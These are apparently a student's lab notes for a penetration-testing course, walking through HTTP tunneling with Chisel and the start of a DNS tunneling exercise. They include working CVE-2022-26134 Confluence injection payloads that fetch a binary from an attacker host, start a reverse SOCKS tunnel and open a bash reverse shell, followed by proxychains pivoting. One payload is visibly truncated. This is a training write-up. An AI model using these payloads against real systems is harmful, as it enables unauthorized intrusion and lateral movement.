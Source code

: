 
# HTTP Tunneling


2. Start VM Group 2. Download **/exercises/chisel_exercise_client** from CONFLUENCE01 (**192.168.239.63**). There's a server running on port 8008 on PGDATABASE01 (**10.4.239.215**).
   Set up a port forward using Chisel that allows you to run **chisel_exercise_client** against port 8008 on PGDATABASE01.

- Get file
```bash
wget http://192.168.239.63:8090/exercises/chisel_exercise_client
	--2024-06-25 19:04:17--  http://192.168.239.63:8090/exercises/chisel_exercise_client
	Connecting to 192.168.239.63:8090... connected.
	HTTP request sent, awaiting response... 200 
	Length: 1026416 (1002K)
	Saving to: ‘chisel_exercise_client’
	
	chisel_exercise_client  100%[=============================================================================================>] 1002K 1.42MB/s in 0.7s 
	
	2024-06-25 19:04:18 (1.42 MB/s) - ‘chisel_exercise_client’ saved [1026416/1026416]


chmod +x chisel_exercise_client
```

- Download compatible version of chisel, make executable, serve up
```bash
# Download v1.8.1 (working in ~/exercises/forward_tunnel dir)
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
	...
	chisel_1.8.1_linux_amd64.gz  100%[============================================================================>]   3.33M  --.-KB/s    in 0.1s
	...

# Unzip v1.8.1
gunzip chisel_1.8.1_linux_amd64.gz

# Rename
mv chisel_1.8.1_linux_amd64 chisel

# Make executable
chmod +x chisel

# Server
python3 -m http.server 80
```

- Set up Reverse Port Forward Server on Kali
```bash
chisel server --port 8080 --reverse
	2024/06/24 21:16:49 server: Reverse tunnelling enabled
	2024/06/24 21:16:49 server: Fingerprint eqnhO59Dz8gJ4de6b2Kvvnbv1X/QhAPgs8v4PsyBhck=
	2024/06/24 21:16:49 server: Listening on http://0.0.0.0:8080
```

- Send payload to CONFLUENCE01 to:
	1. Download chisel, Store it in /tmp/, & Make Executable
	2. Initiate a reverse port forward
```bash
# 1.
curl http://192.168.239.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.45.166/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

# 2.
curl http://192.168.239.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.g%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.166:8080%20R:socks%20%26%3Ert%28%29%22%29%7D/
```

- Verify via our chisel server
```bash
	2024/06/25 19:08:25 server: session#1: Client version (1.8.1) differs from server version (1.9.1-0kali1)
	2024/06/25 19:08:25 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```
	- NOTE the tun is set to 127.0.0.1:1080

- Set proxychains config file
```bash
sudo vim /etc/proxychains4.conf

	socks5  127.0.0.1 1080
```
	- NOTE we set the same port as the Reverse Proxy seen above


- Run `chisel_exercise_client` via proxychains against PGDATABASE01
```bash
proxychains4 ./chisel_exercise_client -i 10.4.239.215 -p 8008
	[proxychains] config file found: /etc/proxychains4.conf
	[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
	[proxychains] DLL init: proxychains-ng 4.17
	Connecting to 10.4.239.215:8008
	[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.4.239.215:8008  ...  OK
	Flag: "OS{bec052233ff6ca0ebd989fcde4d587ec}"
```



# DNS Tunneling

2. Follow the steps in this section to set up the dnscat2 server on FELINEAUTHORITY, and execute the dnscat2 client on PGDATABASE01. Download the binary from **/exercises/dnscat_exercise_client** on CONFLUENCE01. Set up a port forward with dnscat2 which allows you to run **dnscat_exercise_client** against the server running on port 4646 on HRSHARES.












**EDIT**











- Enable the SSH server on Kali & verify SSH port is open
```bash
sudo systemctl start ssh

udo ss -ntplu
	Netid       State        Recv-Q       Send-Q             Local Address:Port                Peer Address:Port       Process  
	...
	tcp         LISTEN       0            128                      0.0.0.0:22                       0.0.0.0:*           users:(("sshd",pid=2153,fd=3))
	tcp         LISTEN       0            128                         [::]:22                          [::]:*           users:(("sshd",pid=2153,fd=4))
```
	- SSH server is listening on port 22 for all interfaces for IPv4 & IPv6


- Compromise CONFLUENCE01 w/ CVE-2022-26134 & construct remote port forward.
```bash
curl -v http://192.168.189.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.166/5555%200%3E%261%27%29.start%28%29%22%29%7D/

# In revshell
python3 -c 'import pty; pty.spawn("/bin/sh")'

# Set up a dynamic reverse port forward
ssh -N -R 2345 192.168.45.166
```

- In Kali, ssh into PGDATABASE01 and FELINEAUTHORITY
```bash
# Tab 1 (PGDATABASE01)
proxychains ssh database_admin@10.4.189.215
	[proxychains] config file found: /etc/proxychains4.conf
	[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
	[proxychains] DLL init: proxychains-ng 4.17
	[proxychains] Strict chain  ...  127.0.0.1:2345  ...  10.4.189.215:22  ...  OK
	The authenticity of host '10.4.189.215 (10.4.189.215)' can''t be established.
	ED25519 key fingerprint is SHA256:oPdvAJ7Txfp9xOUIqtVL/5lFO+4RY5XiHvVrZuisbfg.
	...
	Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
	Warning: Permanently added '10.4.189.215' (ED25519) to the list of known hosts.
	database_admin@10.4.189.215''s password:
	...
	database_admin@pgdatabase01:~$


# Tab 2 (FELINEAUTHORITY)
ssh kali@192.168.189.7
	kali@192.168.189.7''s password: 
	Linux felineauthority 6.1.0-kali5-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.12-1kali2 (2023-02-23) x86_64
	...
	kali@felineauthority:~$
```

- Change config file and simulate a DNS setup on FELINEAUTHORITY
```bash
cd dns_tunneling

cat dnsmasq.conf
	# Do not read /etc/resolv.conf or /etc/hosts
	no-resolv
	no-hosts
	
	# Define the zone
	auth-zone=feline.corp
	auth-server=feline.corp
```
	- Configuration ignores */etc/resolv.conf* and */etc/hosts*
	- Only defines the *auth-zone* and *auth-server* variables
		- Tells dnsmasq to act as the authoritative name server for **feline.corp** zone
	- Records have not b een configured.

- Start **dnsmasq** using 'no daemon' mode for foreground processing
```bash
sudo dnsmasq -C dnsmasq.conf -d
	[sudo] password for kali: 
	dnsmasq: started, version 2.89 cachesize 150
	dnsmasq: compile time options: IPv6 GNU-getopt DBus no-UBus i18n IDN2 DHCP DHCPv6 no-Lua TFTP conntrack ipset nftset auth cryptohash DNSSEC loop-detect inotify dumpfile
	dnsmasq: warning: no upstream servers configured
	dnsmasq: cleared cache
```

- In a new FELINEAUTHORITY shell, capture DNS packets (UDP/53)
```bash
sudo tcpdump -i ens192 udp port 53
	[sudo] password for kali: 
	tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
	listening on ens192, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```